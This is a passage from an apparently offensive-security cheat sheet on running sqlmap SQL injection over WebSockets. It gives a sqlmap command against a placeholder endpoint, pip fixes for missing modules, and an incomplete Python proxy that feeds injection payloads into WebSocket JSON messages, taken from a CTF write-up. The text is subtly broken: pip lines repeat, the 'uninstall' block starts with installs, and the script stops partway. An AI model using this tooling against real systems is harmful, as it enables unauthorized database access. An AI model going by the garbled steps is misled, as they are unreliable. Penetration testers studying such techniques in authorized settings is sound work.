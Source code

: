 ### Using Web Sockets

```console
$ sqlmap --url "ws://<DOMAIN>" --data='{"params":"help","token":"<TOKEN>"}'
```

#### Fix Websocket Errors (sqlmap requires third-party module 'websocket-client' in order to use WebSocket functionality)

> https://stackoverflow.com/questions/40212252/python-websockets-module-has-no-attribute/40212593#40212593

> https://pypi.org/project/websocket-client-py3/

Try to install potentially missing modules first.

```console
$ pip install websocket-client
$ pip install websocket-client
$ pip install websocket-client-py3
$ pip install websocket-client-py3
$ pip install sqlmap-websocket-proxy
$ pip install sqlmap-websocket-proxy
```

If this does not help, uninstall the modules manually
and re-install them afterwards.

```console
$ pip install websocket-client
$ pip install websocket-client
$ pip uninstall websocket-client-py3
$ pip3 uninstall websocket-client-py3
```

#### sqlmap Web Socket Proxy Python Script

> https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

```console
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
  ws = create_connection(ws_server)
  # If the server returns a response on connect, use below line 
  #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
  
  # For our case, format the payload in JSON
  message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
  data = '{"employeeID":"%s"}' % message

  ws.send(data)
  resp = ws.recv()
  ws.close()

  if resp:
    return resp
  else:
    return ''

```